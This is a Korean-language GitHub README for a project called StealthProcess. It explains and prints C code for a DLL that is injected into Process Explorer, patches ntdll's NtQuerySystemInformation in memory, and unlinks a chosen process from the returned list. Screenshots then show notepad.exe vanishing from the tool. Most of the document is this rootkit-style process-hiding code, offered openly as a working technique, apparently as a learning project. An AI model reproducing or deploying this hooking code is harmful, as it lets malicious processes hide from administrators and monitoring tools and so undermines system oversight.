

# StealthProcess
## 세부사항
|||
|---|---|
|개발일자|2024-02-23 ~ 2024-02-27|
|시스템 OS| Windows 10|
|개발도구| Visual Studio 2022, winAPI, C|
|추가도구|Process Explorer|

## 내용
DLL Injection을 통해 StealthProcess.dll를 인젝션하여 특정 프로세스를 특정 프로세스에서 숨긴다.  
StealthProcess.dll(특정 프로세스를 숨기는 역활을 담당) -> Injection -> ProcessExploerer  

## 주요 코드
### Hooking 함수
```C
void Hooking(const char* dllName, const char* srcProc, const void* buffer, int bufferSize) {
	HMODULE dll = GetModuleHandleA(dllName);
	if (dll == NULL) ErrorMessage("dll");
	gNtdll = dll;

	void* proc = GetProcAddress(dll, srcProc);
	if (proc == NULL) ErrorMessage("proc");
	gProcAddr = proc;

	/*BYTE jmpCode[JMP_COMMAND_PADDING] = { 0xFF, 0x25, 0, };
	DWORD64 newProcAddr = 0;
	DWORD64 offsetAddr = 0;*/

	//int tmpSize = 0;
	DWORD oldProtect;

	//auto result = VirtualProtect(proc, sizeof(jmpCode) + sizeof(newProcAddr), PAGE_EXECUTE_READWRITE, &oldProtect);
	auto result = VirtualProtect(proc, bufferSize, PAGE_EXECUTE_READWRITE, &oldProtect);
	if (!result) ErrorMessage("VirtualProtect");

	if (gOriBuffer == nullptr) {
		gOriBuffer = new BYTE[bufferSize];
		memcpy_s(gOriBuffer, bufferSize, proc, bufferSize);
		gOriSize = bufferSize;
	};
	/*tmpSize = sizeof(jmpCode);
	result = memcpy_s(proc, tmpSize, jmpCode, tmpSize);
	if (result != 0) ErrorMessage("memcpy_s");

	offsetAddr = ((DWORD64)proc + tmpSize);
	newProcAddr = (DWORD64)dstProc;
	tmpSize = sizeof(newProcAddr);
	result = memcpy_s((void*)offsetAddr, tmpSize, &newProcAddr, tmpSize);*/
	result = memcpy_s(proc, bufferSize, buffer, bufferSize);

	result = VirtualProtect(proc, bufferSize, oldProtect, &oldProtect);
	if (!result) ErrorMessage("VirtualProtect");
};
```
전달된 매개변수로 원래 함수 위치를 찾아, 전달된 버퍼로 덮어 씌우는 함수이다.  
실제로 ntdll.dll 에서 NtQuerySystiemInformation 함수를 찾아서, 새로운 함수로 덮어씌운다.

### NewQuerySystemInformation 함수
```C
NTSTATUS NewQuerySystemInformation(_In_ SYSTEM_INFORMATION_CLASS sysInfoClass, _In_ _Out_ void* sysInfo, _In_ ULONG sysInfoLen, _Out_ ULONG* retLen) {

	//MessageBoxA(NULL, "Check Function Call", "NewQsi", NULL);
	typedef struct _SYSTEM_PROCESS_INFORMATION {
		ULONG NextEntryOffset;
		ULONG NumberOfThreads;
		BYTE Reserved1[48];
		PVOID Reserved2[3];
		HANDLE UniqueProcessID;
		PVOID Reserved3;
		ULONG HandleCount;
		BYTE Reserved4[4];
		PVOID Reserved5[11];
		SIZE_T PeekPagefileUsage;
		SIZE_T PrivatePageCount;
		LARGE_INTEGER Reserved6[6];
	}SystemProcessInforMation, * PSystemPrcoessInforMation;

	NTSTATUS status;
	FARPROC pFunc;
	PSystemPrcoessInforMation pCur = NULL, pPrev = NULL;
	char procName[MAX_PATH] = { 0, };
	int result;

	Hooking("ntdll.dll", "NtQuerySystemInformation", gOriBuffer, gOriSize);
	status = ((NewQsi)gProcAddr) (sysInfoClass, sysInfo, sysInfoLen, retLen);
	if (status != STATUS_SEVERITY_SUCCESS) goto __NEWQSI_END;

	if (sysInfoClass == SYSTEM_PROCESS_INFORMATION) {
		pCur = (PSystemPrcoessInforMation)sysInfo;

		while (TRUE) {
			if (pCur->Reserved2[1] != NULL) {
				result = _wcsicmp((PWSTR)(pCur->Reserved2[1]), oriProcName);
				if (result == 0) {
					if (pCur->NextEntryOffset == 0)
						pPrev->NextEntryOffset = 0;
					else
						pPrev->NextEntryOffset += pCur->NextEntryOffset;
				}
				else
					pPrev = pCur;
			};
			if (pCur->NextEntryOffset == 0)
				break;

			pCur = (PSystemPrcoessInforMation)((ULONG64)pCur + pCur->NextEntryOffset);
		};
	};

__NEWQSI_END:
	Hooking("ntdll.dll", "ZwQuerySystemInformation", gBuffer, gBufferSize);
	return status;
};
```

NewQuerySystemInformation 함수에서 눈여겨 볼 곳은 pPrev-NextEntryOffset += pCur->NetxEntryOffset; 이다.  
NtQuerySystemInformation 에서 ProcessInformation은 리스트 형식에 반환 값을 가지고 있고, 리스트의 구조에서 자신이 숨기고자한 프로세스(oriProcName변수)를 찾아서 리스트 연결을 인젝션을 당한 프로세스에서 내에서 빼는 것이다.

## 검증

### ProcessExploerer 통해 notepad.exe 확인
<image src="./검증1.png">

### DLLInjector 로 StealthProcess.dll 인젝션
<image src="./검증2.png">

### ProcessExploerer 통해 notepad.exe가 사라진것을 확인
